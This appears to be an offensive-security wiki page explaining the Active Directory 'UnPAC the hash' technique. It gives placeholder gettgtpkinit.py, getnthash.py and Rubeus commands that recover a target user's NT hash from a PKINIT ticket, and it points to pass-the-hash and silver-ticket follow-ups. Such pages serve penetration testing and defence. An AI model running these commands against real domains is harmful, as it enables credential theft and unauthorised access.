 # UnPAC the hash

## Explanation

### When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a PAC_CREDENTIAL_INFO structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

### The NTLM keys will then be recoverable after a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (i.e. S4U2self + User-to-User authentication).

### It allows attackers that know a user's private key, or attackers able to conduct Shadow Credentials or Golden certificate attacks, to recover the user's LM and NT hashes.

## Exploitation

## Linux

#### 1) The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.

    gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

    export KRB5CCNAME="TGT_CCACHE_FILE"

    getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'

### The NT hash can be used for pass-the-hash, silver ticket, or Kerberos delegations abuse.

## Windows

    Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
